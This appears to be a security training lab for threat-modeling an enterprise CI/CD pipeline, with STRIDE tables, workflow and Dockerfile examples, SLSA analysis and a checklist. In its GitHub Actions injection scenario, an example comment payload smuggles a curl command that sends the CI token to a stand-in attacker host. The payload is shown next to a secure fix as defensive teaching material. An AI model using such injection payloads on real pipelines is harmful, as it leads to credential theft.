




# Lab 10: CI/CD Pipeline Threat Model

## Objective

Perform a comprehensive threat model of a modern CI/CD pipeline, identifying software supply chain risks, build system vulnerabilities, and deployment security gaps.

---

## Scenario: DevFlow - Enterprise CI/CD Platform

You are the security architect for a financial services company modernizing their software delivery pipeline.

### Pipeline Overview

| Metric | Value |
|--------|-------|
| Applications | 200+ microservices |
| Developers | 500+ engineers |
| Deployments | 100+ per day |
| Environments | Dev, Staging, Prod |
| Compliance | SOC 2, PCI DSS |

### Current Toolchain

| Stage | Tool | Purpose |
|-------|------|---------|
| Source Control | GitHub Enterprise | Code repository |
| CI/CD | GitHub Actions | Build and deploy |
| Artifact Registry | AWS ECR | Container images |
| Secrets | HashiCorp Vault | Secret management |
| IaC | Terraform | Infrastructure |
| Container Runtime | AWS EKS | Kubernetes |
| Monitoring | Datadog | Observability |

---

## Architecture Diagram

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

---

## Lab Tasks

### Task 1: Source Control Security Analysis (25 minutes)

Analyze source code repository threats:

**Repository Configuration Audit:**

```yaml
# Current branch protection rules
main:
  required_reviews: 2
  dismiss_stale_reviews: true
  require_code_owner_review: true
  require_signed_commits: true
  require_status_checks:
    - build
    - test
    - security-scan
  restrict_push: [release-team]

feature/*:
  required_reviews: 1
  require_status_checks:
    - build
    - test
```

**Threat analysis:**

| Threat | Attack Vector | STRIDE | Mitigation |
|--------|---------------|--------|------------|
| Malicious commit | Compromised developer account | T, R | Signed commits, MFA |
| Branch protection bypass | Admin override | E | Audit logging, approval workflow |
| Secrets in code | Hardcoded credentials | I | Pre-commit hooks, secret scanning |
| Dependency confusion | Typosquatted package | T | Lock files, private registry |
| Force push to main | Override protection | T, R | Disable force push |

**CODEOWNERS security:**

```
# CODEOWNERS file
# Security team must approve security-sensitive changes

/security/                    @security-team
/.github/workflows/           @security-team @platform-team
/terraform/                   @infra-team @security-team
**/secrets*                   @security-team
Dockerfile                    @security-team @platform-team
package-lock.json             @security-team
go.sum                        @security-team
```

**Complete the source control threat matrix:**

| Asset | Threat | Likelihood | Impact | Controls |
|-------|--------|------------|--------|----------|
| Code | Malicious insertion | Medium | Critical | Code review, signed commits |
| Secrets | Exposure | High | Critical | Secret scanning |
| Workflows | Tampering | Low | Critical | CODEOWNERS |
| Dependencies | Malicious update | Medium | High | ? |
| History | Rewriting | Low | Medium | ? |

---

### Task 2: Build Pipeline Threat Analysis (30 minutes)

Analyze CI build system security:

**GitHub Actions Workflow:**

```yaml
# .github/workflows/build.yml
name: Build and Deploy

on:
  push:
    branches: [main]
  pull_request:
    branches: [main]

jobs:
  build:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      packages: write
      id-token: write  # For OIDC

    steps:
      - uses: actions/checkout@v4

      - name: Setup Node
        uses: actions/setup-node@v4
        with:
          node-version: '20'
          cache: 'npm'

      - name: Install dependencies
        run: npm ci

      - name: Run tests
        run: npm test

      - name: Build
        run: npm run build

      - name: Configure AWS credentials
        uses: aws-actions/configure-aws-credentials@v4
        with:
          role-to-assume: arn:aws:iam::123456789:role/github-actions
          aws-region: us-east-1

      - name: Build and push Docker image
        run: |
          docker build -t $ECR_REGISTRY/$IMAGE_NAME:$GITHUB_SHA .
          docker push $ECR_REGISTRY/$IMAGE_NAME:$GITHUB_SHA
```

**STRIDE the build pipeline:**

| Stage | S | T | R | I | D | E | Threats |
|-------|---|---|---|---|---|---|---------|
| Checkout | | ✓ | | | | | Malicious code from PR |
| Dependencies | | ✓ | | | | | Compromised npm package |
| Build | | ✓ | | | | | Build script injection |
| Test | | | ✓ | | | | Fake test results |
| Docker build | | ✓ | | | | | Base image compromise |
| Push to registry | ✓ | ✓ | | | | | Image tampering |

**Build isolation threats:**

**Build Environment Threats:**

- Shared runners
  - Previous build artifacts persisted
  - Environment variable leakage
  - Side-channel attacks
- Self-hosted runners
  - Persistent compromise
  - Network access to internal systems
  - Credential theft
- Dependencies
  - npm install executes arbitrary code
  - postinstall scripts
  - Transitive dependencies
- Build outputs
  - Unsigned artifacts
  - Unverified provenance
  - Cache poisoning


---

### Task 3: Artifact Security Analysis (25 minutes)

Analyze container registry and artifact security:

**Container Image Threats:**

```dockerfile
# Dockerfile - Identify security issues
FROM node:18  # Unpinned base image

WORKDIR /app

COPY package*.json ./
RUN npm install  # Not using npm ci

COPY . .

RUN npm run build

# Running as root (implicit)
EXPOSE 3000
CMD ["node", "server.js"]
```

**Dockerfile threat analysis:**

| Issue | Line | Threat | Fix |
|-------|------|--------|-----|
| Unpinned base image | 1 | Base image substitution | Use digest: node@sha256:... |
| npm install | 5 | Inconsistent dependencies | Use npm ci |
| COPY . . | 7 | Secrets copied to image | Use .dockerignore |
| Running as root | - | Container escape | USER node |
| No health check | - | Failed detection | HEALTHCHECK |

**Image signing and verification:**

```yaml
# Sigstore/Cosign workflow
- name: Sign container image
  run: |
    cosign sign --yes \
      --oidc-issuer=https://token.actions.githubusercontent.com \
      $ECR_REGISTRY/$IMAGE_NAME:$GITHUB_SHA

# Verification policy (Kyverno)
apiVersion: kyverno.io/v1
kind: ClusterPolicy
metadata:
  name: verify-image-signatures
spec:
  validationFailureAction: Enforce
  rules:
    - name: verify-signature
      match:
        resources:
          kinds:
            - Pod
      verifyImages:
        - image: "*.dkr.ecr.*.amazonaws.com/*"
          key: |
            -----BEGIN PUBLIC KEY-----
            ...
            -----END PUBLIC KEY-----
```

**Complete the artifact security matrix:**

| Artifact Type | Storage | Integrity Check | Provenance | Threats |
|---------------|---------|-----------------|------------|---------|
| Container images | ECR | Digest | Cosign attestation | Tag mutation |
| npm packages | Artifactory | package-lock.json | ? | Dependency confusion |
| Terraform modules | GitHub | ? | ? | Module tampering |
| Helm charts | ECR/OCI | ? | ? | Chart injection |

---

### Task 4: Secrets Management Threat Analysis (30 minutes)

Analyze secret handling across the pipeline:

**Secret Flow Analysis:**

**Secret lifecycle**

<!-- figure: generated from the Mermaid below by _shared/diagrams/embed-figures.py — do not edit the image -->


<details>
<summary>Diagram source (Mermaid)</summary>



</details>

**Threat points**

| Stage | Threats |
|---|---|
| **Creation** | Weak secrets · a secret shared between systems |
| **Storage** | Vault compromise · **backup exposure** |
| **Distribution** | Environment variables written to logs · visible in a process listing |
| **Usage** | Memory dump · side channel |
| **Rotation** | Stale secrets · gaps where the old one still works and the new one does not |

Backup exposure is the one that gets skipped. A vault with impeccable access control, whose snapshots
land in a bucket with looser permissions, has moved the secret rather than protected it.

**CI/CD secret threats:**

| Secret Type | Current Storage | Exposure Risk | Mitigation |
|-------------|-----------------|---------------|------------|
| GitHub token | Actions secrets | Workflow logs | Masked, short-lived |
| AWS credentials | OIDC | Token exchange | Role-based, no long-lived keys |
| Docker registry | Actions secrets | Image layers | Pull-only tokens |
| Database creds | Vault | App env vars | Vault Agent injection |
| API keys | Vault | App code | External secret operator |

**Vault integration threat analysis:**

```yaml
# Kubernetes External Secrets Operator
apiVersion: external-secrets.io/v1beta1
kind: ExternalSecret
metadata:
  name: database-credentials
spec:
  refreshInterval: 1h
  secretStoreRef:
    name: vault-backend
    kind: ClusterSecretStore
  target:
    name: db-credentials
    creationPolicy: Owner
  data:
    - secretKey: username
      remoteRef:
        key: secret/data/prod/database
        property: username
    - secretKey: password
      remoteRef:
        key: secret/data/prod/database
        property: password
```

| Threat | Attack Vector | Impact | Mitigation |
|--------|---------------|--------|------------|
| Vault token theft | CI job compromise | All secrets exposed | Short TTL, narrow scope |
| Secret in logs | Verbose logging | Credential leak | Log filtering |
| Secret in image | Dockerfile COPY | Image scanning | Multi-stage builds |
| Env var exposure | /proc access | Container escape | Mounted secrets |
| Stale secrets | No rotation | Long-term access | Auto-rotation |

---

### Task 5: Deployment Security Analysis (25 minutes)

Analyze GitOps deployment security:

**ArgoCD Configuration:**

```yaml
# ArgoCD Application
apiVersion: argoproj.io/v1alpha1
kind: Application
metadata:
  name: myapp
  namespace: argocd
spec:
  project: production
  source:
    repoURL: https://github.com/org/gitops-manifests
    targetRevision: main
    path: manifests/overlays/prod
  destination:
    server: https://kubernetes.default.svc
    namespace: production
  syncPolicy:
    automated:
      prune: true
      selfHeal: true
```

**GitOps threat analysis:**

| Threat | Attack Vector | Impact | Mitigation |
|--------|---------------|--------|------------|
| Manifest tampering | GitOps repo compromise | Malicious deployment | GPG signed commits |
| Privilege escalation | ClusterRole in manifest | Cluster takeover | OPA/Gatekeeper policies |
| Resource exhaustion | No limits in manifest | DoS | LimitRange, ResourceQuota |
| Image substitution | Tag:latest mutation | Code injection | Image digest pinning |
| Secret exposure | Secrets in Git | Credential leak | External Secrets, Sealed Secrets |

**Deployment policy enforcement:**

```yaml
# OPA Gatekeeper constraint
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sRequiredLabels
metadata:
  name: require-security-labels
spec:
  match:
    kinds:
      - apiGroups: [""]
        kinds: ["Pod"]
  parameters:
    labels:
      - key: "security.policy/scanned"
        allowedRegex: "^true$"
      - key: "security.policy/signed"
        allowedRegex: "^true$"
```

---

### Task 6: Supply Chain Security (SLSA) Analysis (30 minutes)

Analyze supply chain security posture:

**SLSA Levels Assessment:**

| Requirement | SLSA 1 | SLSA 2 | SLSA 3 | Current State |
|-------------|--------|--------|--------|---------------|
| Source versioned | ✓ | ✓ | ✓ | ✓ (GitHub) |
| Build scripted | ✓ | ✓ | ✓ | ✓ (Actions) |
| Build service | | ✓ | ✓ | ✓ (Actions) |
| Build as code | | ✓ | ✓ | ✓ (YAML) |
| Ephemeral build env | | | ✓ | ? |
| Isolated builds | | | ✓ | ? |
| Provenance generated | ✓ | ✓ | ✓ | ? |
| Provenance non-falsifiable | | ✓ | ✓ | ? |
| Provenance dependencies | | | ✓ | ? |

**Generate SLSA provenance:**

```yaml
# SLSA provenance generation
- name: Generate SLSA provenance
  uses: slsa-framework/slsa-github-generator/.github/workflows/generator_container_slsa3.yml@v1.9.0
  with:
    image: ${{ env.ECR_REGISTRY }}/${{ env.IMAGE_NAME }}
    digest: ${{ steps.build.outputs.digest }}

# Provenance attestation structure
{
  "_type": "https://in-toto.io/Statement/v0.1",
  "predicateType": "https://slsa.dev/provenance/v0.2",
  "subject": [{
    "name": "myapp",
    "digest": {"sha256": "abc123..."}
  }],
  "predicate": {
    "builder": {"id": "https://github.com/actions/runner"},
    "buildType": "https://github.com/slsa-framework/slsa-github-generator",
    "invocation": {
      "configSource": {
        "uri": "git+https://github.com/org/repo@refs/heads/main",
        "digest": {"sha1": "def456..."},
        "entryPoint": ".github/workflows/build.yml"
      }
    },
    "materials": [
      {"uri": "pkg:npm/express@4.18.2", "digest": {"sha256": "..."}},
      {"uri": "pkg:docker/node@18", "digest": {"sha256": "..."}}
    ]
  }
}
```

**SBOM generation and analysis:**

```yaml
# Generate SBOM
- name: Generate SBOM
  uses: anchore/sbom-action@v0
  with:
    image: ${{ env.ECR_REGISTRY }}/${{ env.IMAGE_NAME }}:${{ github.sha }}
    format: spdx-json
    output-file: sbom.spdx.json

# Scan SBOM for vulnerabilities
- name: Scan SBOM
  uses: anchore/scan-action@v3
  with:
    sbom: sbom.spdx.json
    fail-build: true
    severity-cutoff: high
```

---

### Task 7: Attack Scenarios (25 minutes)

**Scenario 1: Compromised Developer Account**

Attack Chain:
1. Phish developer, steal GitHub PAT
2. Clone repo, inject malicious code in test file
3. Create PR from feature branch
4. Self-approve (if single reviewer) or social engineer
5. Merge to main, triggers build
6. Malicious code executes during npm test
7. Exfiltrate secrets from CI environment
8. Use secrets to access production

**Detection Gaps:**

- No commit signing enforcement
- Single reviewer allowed on some repos
- No behavioral analysis on commit patterns
- CI secrets accessible during test phase


**Scenario 2: Dependency Confusion Attack**

```
Attack Chain:
1. Identify internal package name (e.g., @company/utils)
2. Register public package with same name
3. Public registry has higher version number
4. npm install fetches malicious public package
5. postinstall script executes
6. Credentials exfiltrated

package.json (victim):
{
  "dependencies": {
    "@company/utils": "^1.0.0"  # Intended: private registry
  }
}

Mitigation:
□ Scoped packages (@company/*)
□ .npmrc with registry configuration
□ Package lock file
□ Private registry only
```

**Scenario 3: GitHub Actions Injection**

```yaml
# Vulnerable workflow
on:
  issue_comment:
    types: [created]

jobs:
  respond:
    runs-on: ubuntu-latest
    steps:
      - run: |
          echo "Comment: ${{ github.event.comment.body }}"
          # Attacker comment: ""; curl attacker.com/steal?token=$GITHUB_TOKEN

# Secure version
      - run: |
          echo "Comment: $COMMENT_BODY"
        env:
          COMMENT_BODY: ${{ github.event.comment.body }}
```

---

### Task 8: Create CI/CD Threat Model (30 minutes)

Consolidate findings into comprehensive threat model:

**Top 10 CI/CD Pipeline Risks:**

| Rank | Threat | Stage | STRIDE | Impact | Mitigation |
|------|--------|-------|--------|--------|------------|
| 1 | Compromised dependency | Build | T | Critical | SCA, lock files, SBOM |
| 2 | Secret exposure in logs | Build | I | Critical | Secret masking, audit |
| 3 | Unsigned artifacts | Artifact | T, R | High | Sigstore, SLSA |
| 4 | Malicious PR merge | Source | T | Critical | Branch protection, reviews |
| 5 | Runner compromise | Build | T, I, E | Critical | Ephemeral runners |
| 6 | | | | | |
| 7 | | | | | |
| 8 | | | | | |
| 9 | | | | | |
| 10 | | | | | |

**Security Controls Matrix:**

| Control | Source | Build | Artifact | Deploy | Priority |
|---------|--------|-------|----------|--------|----------|
| MFA | ✓ | | | | P0 |
| Signed commits | ✓ | | | | P1 |
| Branch protection | ✓ | | | | P0 |
| Secret scanning | ✓ | ✓ | | | P0 |
| SAST | | ✓ | | | P1 |
| SCA | | ✓ | | | P0 |
| Container scanning | | ✓ | ✓ | | P0 |
| Image signing | | | ✓ | ✓ | P1 |
| SBOM | | ✓ | ✓ | | P1 |
| Provenance | | ✓ | ✓ | | P1 |
| Policy enforcement | | | | ✓ | P0 |
| Admission control | | | | ✓ | P0 |

---

## CI/CD Security Checklist

```
Source Control:
□ MFA enforced for all users
□ Signed commits required
□ Branch protection on main/release
□ CODEOWNERS for sensitive files
□ Secret scanning enabled
□ Dependency scanning enabled

Build Pipeline:
□ Ephemeral build environments
□ Minimal permissions (least privilege)
□ OIDC for cloud authentication
□ SAST integrated
□ SCA with vulnerability blocking
□ Container image scanning
□ No secrets in build logs

Artifacts:
□ Image signing (Sigstore/Cosign)
□ SBOM generation
□ SLSA provenance attestation
□ Immutable tags (digest pinning)
□ Vulnerability scanning before push
□ Private registry with access control

Deployment:
□ GitOps with signed commits
□ Admission controllers (Kyverno/OPA)
□ Image signature verification
□ Resource limits enforced
□ Network policies applied
□ No privileged containers

Secrets:
□ No long-lived credentials
□ Vault/external secrets operator
□ Automatic rotation
□ Audit logging enabled
□ Scoped access (least privilege)

Monitoring:
□ Build logs retained
□ Deployment audit trail
□ Anomaly detection
□ Failed build alerts
□ Policy violation alerts
```

---

## Evaluation Criteria

| Criteria | Points |
|----------|--------|
| Source control analysis | 15 |
| Build pipeline threats | 20 |
| Artifact security | 15 |
| Secrets management | 15 |
| Deployment security | 10 |
| Supply chain (SLSA) | 15 |
| Attack scenarios | 5 |
| Unified threat model | 5 |
| **Total** | **100** |

---

## Capstone Project

You have completed all 10 labs. For your capstone:

1. Select a real application or system you work with
2. Apply the threat modeling techniques from Labs 1-10
3. Create a comprehensive threat model document
4. Present findings to stakeholders
5. Develop a prioritized remediation roadmap

→ [Return to Roadmap](threat-modeling-roadmap.md)

<!-- feynman-check -->

---

## Feynman check

Close the file. Blank page, no notes. Explain each of these to a competent engineer who has never
used this tool — **under five minutes, no jargon you can't define on the spot:**

- Scenario: DevFlow - Enterprise CI/CD Platform
- CI/CD Security Checklist
- Capstone Project
- Pipeline Overview

**The gap is not what you forgot. It is where you used a word instead of a mechanism.**

| | |
|---|---|
| ✗ | *"We scan for vulnerabilities in the pipeline."* |
| ✓ | *"SAST reads source without running it, SCA resolves the dependency tree against an advisory database, and image scanning compares installed package versions to that same database. All three report what was known at build time — which is why the registry is re-scanned: the image does not change, the database does."* |

**Trace it:** A CVE published today against your base image → a blocked deploy. Name every component between the advisory and the refused `apply`.

Stop at the first component you cannot name. Reopen this file and read **only** that.

**Go deeper — only once the gap has a name:** the [SLSA threat model](https://slsa.dev/spec/v1.2/threats) — it names every point at which a build can be subverted, and most teams defend three of them.
Full list per domain: [`SOURCES.md`](../../SOURCES.md#devsecops)

→ Protocol, the three levels of knowing, and worked examples: [`MASTERY.md`](../../MASTERY.md)

<!-- /feynman-check -->
